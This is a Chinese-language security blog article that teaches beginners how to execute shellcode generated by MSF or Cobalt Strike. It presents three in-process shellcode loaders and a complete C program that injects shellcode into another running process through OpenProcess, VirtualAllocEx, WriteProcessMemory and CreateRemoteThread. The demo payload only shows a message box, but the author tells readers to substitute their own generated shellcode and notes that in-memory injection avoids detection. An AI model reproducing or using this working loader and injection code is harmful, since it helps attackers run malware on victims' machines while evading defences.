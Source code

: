 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qeT1n_n2TpXynrAQH-XviA)

前言：shellcode 是一段用于利用软件漏洞而执行的代码，shellcode 为 16 进制的机器码，因为经常让攻击者获得 shell 而得名。shellcode 常常使用机器语言编写。可在暂存器 eip 溢出后，塞入一段可让 CPU 执行的 shellcode 机器码，让电脑可以执行攻击者的任意指令。

今天讲一下 shellcode 的调用及内存注入的一个案例。

想必好多新手在玩 MSF,CS 能生成 shellcode 的马子，但是 shellcode 生成后.... 不会调用，所以来讲一下 shellcode 的调用。

1.  调用 Shellcode  
    
    因为便于演示，下面的这段 shellcode 是一个 MessageBox 弹框  
    

```
unsigned char  shellcode[]=
  "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
     "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
     "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
     "\x49\x0C\x8B\x09\x8B\x09\x8B\x69\x18\xAD\x3D\x6A\x0A\x38\x1E\x75"
     "\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD"
     "\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
     "\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24"
     "\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
     "\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9"
     "\x33\xDB\x53\x68\x74\x20\x00\x00\x68\x69\x6b\x61\x73\x68\x53\x61"
     "\x6e\x64\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x8B\xE6\xC3";
```

    第一种调用：通过 VirtualAlloc 申请一块内存空间，VirtualAlloc 如果调用成功, 返回分配的首地址, 否则为 NULL。然后进行 memcpy 将 Shellcode 复制到 VirtualAlloc 申请的内存中，进行调用！这里说一句废话，如果 VirtualAlloc 申请失败返回 NULL 的情况下，通过 GetLastError() 进行获取错误信息！

这里顺手贴一下 VirtualAlloc 这个函数的用法

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywyKpNN6QoFZWEKEciby2PXrgtf0dyGW1GnXae1iaVrM0rFkeayLJTUlyzje1a3icuryXdibdYfhWgicfQ/640?wx_fmt=png)

```
unsigned char  shellcode[]=
  "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
     "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
     "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
     "\x49\x0C\x8B\x09\x8B\x09\x8B\x69\x18\xAD\x3D\x6A\x0A\x38\x1E\x75"
     "\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD"
     "\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
     "\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24"
     "\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
     "\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9"
     "\x33\xDB\x53\x68\x74\x20\x00\x00\x68\x69\x6b\x61\x73\x68\x53\x61"
     "\x6e\x64\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x8B\xE6\xC3";
//代码如下
 typedef void(*CODE)();  //定义一个函数指针
  LPVOID codes = NULL;//初始化一下codes
  codes  = VirtualAlloc(NULL,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE_READWRITE);
  memcpy(codes,shellcode,sizeof(shellcode));//将shellcode内容复制到codes这块内存里面，第三参数是大小
  CODE c = (CODE)codes;
  c();//直接调用即可
```

如下图，成功调用

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywyKpNN6QoFZWEKEciby2PXreGQqtEAIwPHtsgKb6VAlibZJLRTXpxq9IuZ8prpAvdxEzziaCRRic1Axw/640?wx_fmt=png)

第二种调用：通过 malloc 也是可以哒

这里 malloc 申请了一块堆内存，然后将 shellcode Copy 到 temp 里即可。

和上面那种差不多~  

```
unsigned char  shellcode[]=
  "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
     "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
     "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
     "\x49\x0C\x8B\x09\x8B\x09\x8B\x69\x18\xAD\x3D\x6A\x0A\x38\x1E\x75"
     "\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD"
     "\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
     "\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24"
     "\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
     "\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9"
     "\x33\xDB\x53\x68\x74\x20\x00\x00\x68\x69\x6b\x61\x73\x68\x53\x61"
     "\x6e\x64\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x8B\xE6\xC3";
  
  typedef void(*CODE)();  
  int size = sizeof(shellcode);
  char* temp = (char*)malloc(size);
  memcpy(temp,shellcode,size);
  CODE c = (CODE)temp;
  c();
```

                                            如下图，调用成功  

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywyKpNN6QoFZWEKEciby2PXr7NK2ibpwic8dfjVyHwKYA6Brgthk9yEnqK3xJlGI0sDMxYoX0OPQbt5Q/640?wx_fmt=png)

第三种调用：  

    比较快捷简便，汇编调用。将 shellcode 的地址传给 eax 寄存器，然后直接 jmp 进行跳转过去。其实还有很多种调用方式... 只要你思路够多肯定就行。

```
__asm{
      lea eax,shellcode
      jmp eax
    }
```

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywyKpNN6QoFZWEKEciby2PXrDNgHpTNicUDSzySiaMtGewWWxZYlltWagY8LrNTibhAibBSyB7MbibhRIjA/640?wx_fmt=png)

简单介绍上面三种 shellcode 调用应该也够新手们用了！剩下的举一反三即可。  

2. 利用 Shellcode 注入到进程内存  

    Shellcode 注入到到进程内存发现的概率比较低，因为注入的 Shellcode 没有保存在磁盘文件。弊端：当目标应用程序关闭，或者系统重启机就凉凉，还有就是加载器被发现，也凉凉~  

OpenProcess(获取进程句柄)--->VirtualAllocEx(在目标进程申请一块内存)-->WriteProcessMemory 拷贝过去 -->CreateRemoteThread(在其它进程创建线程)

```
  第一个参数是进程权限//PROCESS_ALL_ACCESS所有能获得的权限， 
  第三个参数是进程ID 
  HANDLE hprocess = OpenProcess(PROCESS_ALL_ACCESS,NULL,19524);
  
  VirtualAllocEx这个函数和VirtualAlloc差不多，可以看上面解释的图
  第一个参数是传入的进程句柄，第三个是大小，申请成功后，返回了p  
  LPVOID p = VirtualAllocEx(hprocess,NULL,sizeof(shellcode)+1,MEM_RESERVE | MEM_COMMIT,PAGE_READWRITE);
  
  第一个参数是进程句柄，然后将shellcode拷贝到申请的内存空间里面
  BOOL writes = WriteProcessMemory(hprocess,p,shellcode,sizeof(shellcode)+1,NULL);
  
  在进程里创建了一个线程，并直接调用了

  HANDLE h1 = CreateRemoteThread(hprocess,NULL,0,(LPTHREAD_START_ROUTINE)p,0,0,NULL);
```

接下来的话，以 fei 鸽模拟为受害程序

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWywyKpNN6QoFZWEKEciby2PXrRWj96sdico1WoHdl7C6CvTC64Oicic4Yava4c0ykJacribFH2xQQDSgKIQ/640?wx_fmt=png)

如上图，成功将 Shellcode 注入到内存... 全部代码如下  

```
#include "stdafx.h"
#include <windows.h>
#include <stdlib.h>

unsigned char  shellcode[]=
  "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
     "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
     "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
     "\x49\x0C\x8B\x09\x8B\x09\x8B\x69\x18\xAD\x3D\x6A\x0A\x38\x1E\x75"
     "\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD"
     "\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
     "\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24"
     "\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
     "\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9"
     "\x33\xDB\x53\x68\x74\x20\x00\x00\x68\x69\x6b\x61\x73\x68\x53\x61"
     "\x6e\x64\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x8B\xE6\xC3";
void LoadDll(){
  HANDLE hprocess = OpenProcess(PROCESS_ALL_ACCESS,NULL,19524);
    LPVOID p = VirtualAllocEx(hprocess,NULL,sizeof(shellcode)+1,MEM_RESERVE | MEM_COMMIT,PAGE_READWRITE);
  BOOL writes = WriteProcessMemory(hprocess,p,shellcode,sizeof(shellcode)+1,NULL);
  HANDLE h1 = CreateRemoteThread(hprocess,NULL,0,(LPTHREAD_START_ROUTINE)p,0,0,NULL);
}
int main(int argc, char* argv[])
{
  LoadDll();
  getchar();
  return 0;
}
```

结尾：我本文中为了演示方便，使用的是弹窗，私下自己测试将 shellcode 换成你自己生成的 Shellcode 即可                           

                          微信关注公众号：安全族 、连接世界的暗影

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWywyKpNN6QoFZWEKEciby2PXrCyd95j2OY9OT9TZo6y8ictNIb6x77iahSia23sYGB7sXD1ibntic1Ryo8wA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/PrTu58FA79bYUuGICO85hGrTyicvB3nMAtd7QY3C0H3CA2SOwaiaSkDbazCO8C1VXHx8ticGRxDeVATd9LZf62z4w/640?wx_fmt=jpeg)